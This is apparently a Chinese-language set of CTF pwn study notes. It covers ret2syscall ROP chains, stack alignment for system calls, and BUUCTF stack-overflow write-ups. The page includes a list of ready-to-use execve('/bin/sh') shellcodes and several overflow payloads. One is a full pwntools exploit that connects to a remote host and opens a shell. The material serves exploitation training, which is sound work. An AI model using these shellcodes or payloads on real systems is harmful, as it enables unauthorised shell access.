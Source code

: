 1.ret2syscall
==

介绍#
-
控制程序执行系统调用，获取 shell

判断#
-
如果没有system和开启了NX（栈不可执行）保护可以用（有system最好用ret2text，方便省事，没开NX直接ret2shellcode）

步骤#
-

32位和64位的syscall原理都是一样，只有传参和调用存在差异，以下一起说，做个对比。<br>

    32位系统调用使用 " int 80h "
    64位系统调用使用 " syscall " （汇编代码就是syscall 直接ROPgadget--only查找即可）
    
32的系统调用号与64位的不大一样 使用的时候最好百度一下

    32位     #define __NR_execve 11
    64位     #define __NR_execve 59   （0x3b）

32位的系统调用号放在eax 传参依次是 **EBX、ECX、EDX、ESI、EDI、EBP**   <br>
64位的系统调用号放在rax 传参依次是 **RDI、RSI、RDX、R10、R8、R9**  （和64位函数传参一样）<br>


构造ROP chain:<br>
①没有/bin/sh字眼 只能自己加到bss区域，然后调用execve("/bin/sh",NULL,NULL)<br>
查找bss：<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/7b7d482f-4c63-46f8-9917-d568ac11ab05)
<br>

②有/bin/sh，溢出成功后，通过寻找特定的寄存器，以寄存器承载特定的数据，构造 execve(“/bin/sh”,NULL,NULL) 的汇编实现，将其部署栈中，劫持控制流实现获取 shell。
<br>
如何构造汇编实现？(64bit)

    execve("/bin/sh",NULL,NULL)
    系统调用号，rax为59
    第一个参数，rdi指向/bin/sh
    第二个参数，为0
    第三个参数，为0
    第四个参数，为0
    第五个参数，rsi为0
    payload = "A"*offset(偏移量) + flat(rdi,bin_sh,rax_rdx_rbx,59,0,0,rsi,0,syscall)

查找各寄存器地址：

```
ROPgadget --binary ret2syscall --only "syscall|ret"
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'rdx'    #rdx=0x000000000040168b
```

![image](https://github.com/xhsy0314/Task/assets/84487619/6979353a-b56c-4ae4-9739-a244bad2fc38)


2.shellcode
==

shellcode收集：(持续补充)

```
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

```
shellcode=""
io.sendline(shellcode)
```

3.system函数参数非/bin/sh (64位)
-

```
__int64 dofunc()
{
  __int64 buf; // [rsp+8h] [rbp-8h] BYREF

  buf = 0LL;
  puts("input:");
  read(0, &buf, 0x100uLL);
  return 0LL;
}
```

buf栈溢出，动态调试计算能够输入的长度:

```
gdb file
b main
r
n    ---步过，直到执行到某个函数
s    ---进入该函数
n    ---直到回车后提示输入数据
随便输入一些数据
stack 24    ---查看栈情况
```

![image](https://github.com/xhsy0314/Task/assets/84487619/87c3d24b-8fa0-4954-8c7b-2d581f2feb08)<br>

rbp-rsi之间就是buf中能够输入数据的长度，也是填充数据的长度，这里是0x10-0x8=8.<br>
然后还需要填充8个字节的数据，因为rbp占8个字节。也就是一共填充16个垃圾数据。<br>

易忽略的点：**64位程序中的system函数的栈对齐问题**

1、将system函数地址+1，此处的+1，即是把地址+1，也可以理解为<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/eb180202-e2d8-487b-9baf-750facc25279)<br>
本来我们应该是用401186这个地址的，但是我们现在要跳过一条指令，那自然就是用401187，这样就跳过了push rbp这条指令。
2、直接在调用system函数地址之前去调用一个ret指令。因为本来现在是没有对齐的，那我现在直接执行一条对栈操作指令（ret指令等同于pop rip，该指令使得rsp+8，从而完成rsp16字节对齐），这样system地址所在的栈地址就是0结尾，从而完成了栈对齐。<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/d13b7ae2-28d0-452d-a88e-f83db2e3e31c)<br>


因此payload：

```
payload = b'a' * offset # 溢出大小
payload += p64(ret) # ret地址
payload += p64(pop rdi) # pop rdi地址
payload += p64(binsh) # /bin/sh字符串地址
payload += p64(sys) # _system函数地址
```

其中ret地址就是上图中的0x401198.<br>
pop rdi：
```
ROPgadget --binary find_sh --only 'pop|ret' | grep 'rdi' 
```
![image](https://github.com/xhsy0314/Task/assets/84487619/e8b3f0a0-9b54-4d6f-9341-a4490d350efd)<br>

binsh:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9a492389-2b47-49b4-a542-93f3e9e6a615)
<br>

system:<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9af975e0-7e9f-4da9-8083-81dcd2d039ca)<br>

完整exp：

```
from pwn import *
							
#p=process("./stack_overflow")
io=remote("10.140.32.159",48126)

binsh=0x404040
sys=0x401070
ret=0x401198
poprdi=0x0000000000401253
#p64(0x0000000000401198) +
payload= b'A'*8 +b'B'*8 +p64(ret)+p64(poprdi)+p64(0x404040)+ p64(sys)

io.sendline(payload)
io.interactive()
```

4.一道简单栈溢出的三种做法（BUUCTF rip）
--
main函数反编译后很简单，容易观察到存在栈溢出<br>

![image](https://github.com/xhsy0314/Task/assets/84487619/ac28750b-44b4-49d6-abad-370be872f243)
<br>
点进变量s，观察到填充的数据为15个<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/eed9c000-ba92-490c-9462-eb348e3c680e)
<br>

又看到存在system binsh 在fun这个函数里，该函数地址为0x401186<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/9555438b-8c3e-4e90-a040-674f802afd7e)
<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/2ee861cd-206b-44ff-910c-1e78b228ba43)
<br>
**第一种payload：**

```
payload=b'A'*15+b'B'*8+p64(0x401198)+p64(0x401186)
#p64(0x401198) 为fun函数的返回地址，加上这个地址是由于64位程序有一个栈对齐的问题
#另外填充的这8字节是rbp所占的8字节
```
![image](https://github.com/xhsy0314/Task/assets/84487619/2cc8f287-aa55-4e69-b79b-d7950899b387)
<br>
**第二种payload：**
```
payload =b "a" * 23 +p64(0x401187)
#0x401187是push  rbp 这条指令的下一步，也就不存在栈不对齐的问题了
```

**第三种payload：**
```
payload =b "a" * 15 +p64(0x401186)
#这应该是最寻常的做法
```
5.栈溢出变形——覆盖某个变量的值（BUUCTF ciscn_2019_n_1）
--

题目中func函数的反编译代码：<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/352eb273-7e46-45cd-84f0-9fd86c520615)

<br>
分析可知需要利用v1变量来构成栈溢出，来使v2变量的值变成11.28125，从而调用system("cat /flag")查看flag<br>
点进v1,可以看到v1v2两个变量之间的距离为（0x30-0x4=44），也就是44个字节，所以需要将这44个字节填充起来，然后再将11.28125传入进去<br>

这里一开始不知道怎么传入11.28125，原来是需要找到这个数字的地址，<br>
我们观察func函数二进制指令，<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/0f2dbf8e-18c3-4aa5-8eb4-acbb2c52fa57)
<br>
发现有两个比较指令，那么这个cs:dword_4007F4很有可能就是11.28125所在的地址。<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/488c2ad9-dbd1-43eb-88fd-85ed564e0313)<br>

点进去看看，果然找到了<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/0b089f92-533a-470f-8384-0aa35236f1ca)
<br>
所以11.28125的地址就为0x41348000。

构造payload：

```
payload=b'A'*44+p64(0x41348000)
```



